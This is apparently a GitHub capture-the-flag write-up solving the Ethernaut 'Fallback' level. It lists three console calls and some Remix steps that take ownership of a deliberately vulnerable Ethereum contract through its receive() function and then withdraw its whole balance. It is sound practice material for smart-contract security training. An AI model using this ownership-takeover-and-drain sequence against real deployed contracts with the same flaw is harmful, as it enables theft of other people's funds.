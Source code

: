 this puzzle can be directly crack from either console or remix

# for console:

**to make your contributions > 0** <br/>
await contract.contribute({value: 1});

**to trigger the receive() function to set owner to your account** <br/>
await contract.sendTransaction({value: 1});

**then withdraw all the money** <br/>
await contract.withdraw();

# for remix:

copy the contract code and compile

load contract with the address

![image](https://github.com/Vincent71399/ethernaut_solution/assets/10882410/2e24d33d-5026-445e-8f8e-84fc8c555c89)

then call function in sequence

![image](https://github.com/Vincent71399/ethernaut_solution/assets/10882410/e644287b-37cd-43d9-a656-8b21a3f06f27)

don't forget to set ether value when calling functions

![image](https://github.com/Vincent71399/ethernaut_solution/assets/10882410/d9907fd3-1566-4a27-bcc7-446d644bc5ce)

# Submit Instance

![image](https://github.com/Vincent71399/ethernaut_solution/assets/10882410/d23ca4ac-b6f6-489c-80b1-504defaeb13a)


